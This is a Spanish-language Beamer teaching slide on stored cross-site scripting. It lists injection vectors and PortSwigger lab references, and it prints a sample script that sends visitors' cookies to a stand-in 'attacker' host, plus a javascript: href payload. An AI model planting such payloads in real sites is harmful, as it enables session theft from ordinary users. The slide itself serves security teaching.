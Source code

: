 \documentclass[aspectratio=169,10pt]{beamer}
\newcommand{\cmdbox}[1]{%
  \begin{center}%
  {\setlength{\fboxsep}{6pt}\colorbox{uzlav!40}{\parbox{0.88\linewidth}{\ttfamily\footnotesize #1}}}%
  \end{center}}
\begin{document}
\begin{frame}[allowframebreaks]{XSS Almacenado}
\small
  \begin{itemize}
  \item Cross-Site Scripting (XSS)
  \item Concepto
  \item El payload persiste en el servidor (BD, logs, perfil...). Se ejecuta cuando
  \item cualquier usuario visualiza el contenido. El más peligroso.
  \item Vectores comunes
  \item Comentarios / foros $\cdot$ Campos de perfil $\cdot$ Mensajes privados
  \item Metadatos de ficheros subidos $\cdot$ Paneles de administración
  \item Ejemplo --- robo de cookies masivo (Lab 28)
  \item[] \cmdbox{Comentario: \textless{}script\textgreater{}\\{}
fetch('https://attacker/steal?c='+document.cookie);\\{}
\textless{}/script\textgreater{}}
  \item $\rightarrow$ Todos los visitantes ejecutan el fetch al ver la página
  \item Almacenado en href (Lab 34)
  \item[] \cmdbox{\textless{}a href=\textquotedbl{}javascript:alert(document.cookie)\textquotedbl{}\textgreater{}Haz clic\textless{}/a\textgreater{}}
  \item $\rightarrow$ Las comillas están HTML-encoded pero el href javascript: funciona igual
  \item Labs PortSwigger --- almacenado
  \item Lab 28: en HTML $\cdot$ Lab 34: en href $\cdot$ Lab 38: DOM almacenado
  \item Lab 46: en onclick con codificación completa (HTML entities)
  \item portswigger.net/web-security/cross-site-scripting/stored
  \end{itemize}
\end{frame}
\end{document}
